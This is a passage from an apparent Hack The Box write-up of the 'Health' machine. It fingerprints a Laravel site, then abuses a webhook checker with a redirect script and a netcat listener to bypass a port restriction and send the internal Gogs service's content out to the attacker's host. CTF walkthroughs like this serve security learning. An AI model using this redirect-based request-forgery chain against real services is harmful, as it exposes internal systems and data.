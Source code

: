 ```bash
➜  webanalyze ./webanalyze -host http://health.htb
 :: webanalyze        : v1.0
 :: workers           : 4
 :: apps              : technologies.json
 :: crawl count       : 0
 :: search subdomains : true
 :: follow redirects  : false

http://health.htb (0.1s):
    Apache, 2.4.29 (Web servers)
    Ubuntu,  (Operating systems)
    Laravel,  (Web frameworks)
    PHP,  (Programming languages)
```

To check if debugging is enabled visit http://10.129.9.180/profile and we see it's not. 
Investigating the token unserialize RCE we need the `app_key` to exploit, something we cannot find at this point. Also, this is an older vulnerability that works on Laravel version 5.5.40 / 5.6.x < 5.6.30, and visiting http://health.htb/webhook we find that they are running Laravel version 8.83.13.

Back the the Webhook Service. Popularized by GitHub, [Webhooks](https://en.wikipedia.org/wiki/Webhook) are the modern way for apps to receive notifications / events from other servers. A Webhook is a way for you to define a URL that is called by another service when a particular event occurs. For example, you can configure your repo on GitHub to have a Webhook that calls `http://exploit.se/pr` when a new Pull Request is created. 

If we for example set the Webhook URL to:
```bash
https://echo-webhook.exploit.se/SOMETHING_UNIQUE
```

Now when the other service does its POST to that URL the request body is cached and can be retrieved via a GET to the same URL. Here is a simple cURL to demonstrate:
```bash
curl -H "content-type: application/json" -d '{"foo": "bar"}' https://echo-webhook.exploit.se/foobar
curl https://echo-webhook.exploit.se/foobar
{"foo":"bar"}
```

Translated to this box, we set the **Payload URL** to where we want to receive data. We will get an incomming POST request, and either setup a `nc` listener or a webserver capable to receive POSTs.

The **Monitored URL** is what ever we want to retreive information from, after playing around with this parameter for a good while I noticed that I can bypass the restrictions on port 3000 by pointing to myself and having a [301 Redirect](https://stackoverflow.com/questions/2506932/how-do-i-redirect-a-request-to-a-different-url-in-python) to `http://127.0.0.1:3000`

![[/assets/images/htb-writeup-health/health02.png]]

```bash
➜  health python3 redirect.py 80 http://127.0.0.1:3000
10.129.9.180 - - [23/Aug/2022 12:32:01] "GET / HTTP/1.0" 302 -

➜  health nc -lvnp 8888                               
listening on [any] 8888 ...
connect to [10.10.14.20] from (UNKNOWN) [10.129.9.180] 59780
POST / HTTP/1.1
Host: 10.10.14.20:8888
Accept: */*
Content-type: application/json
Content-Length: 7663
Expect: 100-continue

{"webhookUrl":"http:\/\/10.10.14.20:8888\/","monitoredUrl":"http:\/\/10.10.14.20\/","health":"up","body": 
[... snip ...] 
content=\"Gogs(Go Git Service) a painless self-hosted Git Service written in Go\"
```